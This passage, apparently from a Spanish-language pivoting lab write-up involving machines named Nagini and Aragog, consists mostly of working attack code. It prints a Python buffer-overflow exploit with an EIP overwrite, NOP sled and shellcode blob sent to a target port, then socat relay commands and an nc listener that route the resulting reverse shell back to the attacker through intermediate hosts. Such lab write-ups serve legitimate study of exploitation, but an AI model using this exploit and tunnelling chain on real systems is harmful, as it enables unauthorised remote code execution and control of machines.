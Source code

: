 - Código: Versión 2
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    
    # Variables globales
    offset=112 # Cantidad de caracteres antes de sobrescribir el EIP
    before_eip = b"A" * offset
    #eip = pack("<L", 0x8049d55) # EIP apunta al OPCode (JMP ESP)
    eip = b"\x55\x9d\x04\x08" # Esta es una forma alternativa de representación
    
    shellcode =  b""
    shellcode += b"\xbe\xcd\x33\xbd\xb6\xdd\xc6\xd9\x74\x24\xf4"
    shellcode += b"\x5a\x31\xc9\xb1\x12\x83\xc2\x04\x31\x72\x0e"
    shellcode += b"\x03\xbf\x3d\x5f\x43\x0e\x99\x68\x4f\x23\x5e"
    shellcode += b"\xc4\xfa\xc1\xe9\x0b\x4a\xa3\x24\x4b\x38\x72"
    shellcode += b"\x07\x73\xf2\x04\x2e\xf5\xf5\x6c\xaf\x1b\x18"
    shellcode += b"\x6a\xa7\x21\x24\x6c\x56\xaf\xc5\x20\xfe\xff"
    shellcode += b"\x54\x13\x4c\xfc\xdf\x72\x7f\x83\xb2\x1c\xee"
    shellcode += b"\xab\x41\xb4\x86\x9c\x8a\x26\x3e\x6a\x37\xf4"
    shellcode += b"\x93\xe5\x59\x48\x18\x3b\x19"
    
    after_eip = b"\x90"*32 + shellcode
    
    payload = before_eip + eip + after_eip
    
    e = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    e.connect(("30.30.30.5", 9898))
    e.send(payload)
    e.close
    ```
    

La shell llegará a la máquina Nagini pero para que esta llegue a la máquina del atacante, la Nagini debe utilizar socat para redirigir la shell a la máquina Aragog y esta la redirija a la máquina del atacante.

Primero enviar la herramienta socat a la Nagini.

```bash
proxychains scp socat root@20.20.20.4:/root/socat
```

Establecer la conexión de los túneles.

```bash
# En la máquina del atacante
nc -nlvp 7777

# En la máquina Aragog
./socat TCP-LISTEN:7777,fork TCP:192.168.0.104:7777

# En la máquina Nagini
./socat TCP-LISTEN:7777,fork TCP:20.20.20.4:7777
```
